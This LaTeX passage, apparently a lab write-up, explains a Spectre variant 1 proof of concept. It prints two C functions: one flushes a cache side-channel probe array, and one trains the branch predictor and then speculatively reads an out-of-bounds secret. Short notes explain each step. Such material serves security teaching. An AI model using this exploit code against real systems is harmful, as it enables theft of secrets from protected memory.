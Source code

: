 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array.\\
Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution} (go through section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any other value can be used instead.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\

\subsubsection{Spectre Attack(varient 1)}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}
\end{document}
